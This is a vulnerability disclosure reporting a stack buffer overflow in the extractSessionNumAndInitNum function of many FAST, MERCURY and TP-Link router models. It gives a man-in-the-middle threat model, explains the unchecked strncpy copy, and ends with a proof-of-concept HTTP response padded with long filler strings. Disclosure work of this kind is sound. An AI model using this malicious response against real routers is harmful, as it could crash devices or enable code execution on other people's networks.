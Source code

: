 # extractSessionNumAndInitNum Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `extractSessionNumAndInitNum` function.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FW, FAC, FR series of FAST router, including FW325R, FAC1203R, FW326R, FR100P-AC, FAC1900R, FAC1200R, etc ;
- D, M, MW series of MERCURY router, including D121G, MW310R, M6G, MW313R, D12A, MW325R, D196G, MW300R, D12, MW315R, MW351R, D126, M9G, D19, MW326R, MR100P-AC, D12B, etc ;
- WDR, WR, R, WA series of TP-Link router, including TL-WDR5620, TL-WDR5650, TL-WR842N, TL-WDR7660, TL-WDR7620, TL-R470P-AC, TL-WDR7661, TL-WDR7650, TL-WDR7651, TL-WA933RE, etc.

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `extractSessionNumAndInitNum` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data up to the `' '`  and `'\r\n'`  in this malicious response are filled a long string.
3. `extractSessionNumAndInitNum` get these fileds by using `strstr`. However, the length is not checked.
4. Finally, whole string of these fields are copyed to the stack by `strncpy` and lead to a stack buffer overflow to execute arbitrary code.


![5](photos/5.png)

## PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111aaa aaa111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
